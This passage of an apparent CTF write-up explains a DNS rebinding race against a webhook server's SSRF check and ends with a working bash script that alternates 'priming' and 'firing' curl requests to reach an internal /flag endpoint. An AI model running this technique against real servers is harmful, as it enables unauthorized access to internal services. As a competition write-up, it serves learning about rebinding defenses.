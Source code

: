         - On subsequent queries (after the TTL expires): Resolves to the target IP (`127.0.0.1`) so the server sends the request to the internal service.
    - Using a service like `rbndr.us`, we can create such a domain. For example, `08080808.7f000001.rbndr.us` will resolve sequentially to `8.8.8.8` and `127.0.0.1`.
4. **Optimizing the Attack with the "Priming and Firing" Technique:**
    - Simply spamming the `/trigger` endpoint randomly has a very low success rate because the window to exploit the race condition is extremely narrow.
    - We adopt a more effective strategy:
        - **Prime:** Send a request to `/register` with the attack domain. This action forces the server to perform a DNS query, refreshing its cache with the valid public IP and resetting the TTL countdown.
        - **Fire:** Immediately after the "priming" step, send a high-volume burst of `/trigger` requests. One of these requests is highly likely to hit the golden moment: the server's DNS cache for the check still holds the old IP, but when the request library performs a new query, it receives `127.0.0.1`.

---

## Exploit Script

A simple `bash` script was used to automate the "Priming and Firing" strategy, repeating the process until successful.

```bash
#!/bin/bash

# --- CONFIGURATION ---
CHALLENGE_URL="<https://supernova.sunshinectf.games/>"
ATTACK_DOMAIN="<http://08080808.7f000001.rbndr.us:5001/flag>"
# webhook_id obtained after registering the ATTACK_DOMAIN for the first time
WEBHOOK_ID="1d14f9b7-f4b9-4140-8dfc-c33bbcd68df9"
# -----------------

# Number of trigger requests to fire in each burst
BURST_COUNT=36

echo "Starting DNS Rebinding attack using the 'Priming and Firing' method..."
echo "Press Ctrl+C to stop."

# Infinite attack loop
while true; do
  echo "---------------------------------"
  echo "[+] PRIMING phase: Refreshing the server's DNS cache..."
  # Send a request to /register to force the server to resolve DNS and refresh its cache
  curl -s -o /dev/null -X POST -d "url=$ATTACK_DOMAIN" "$CHALLENGE_URL/register"

  echo "[+] FIRING phase: Sending $BURST_COUNT trigger requests concurrently..."
  # Fire a burst of trigger requests in parallel to increase the chance of success
  for (( i=1; i<=$BURST_COUNT; i++ )); do
    curl -s -X POST -d "id=$WEBHOOK_ID" "$CHALLENGE_URL/trigger" &
  done

  # Wait for all background curl processes to complete
  wait
  echo "[+] Cycle complete. Waiting 2 seconds before repeating..."
  sleep 2
done

```
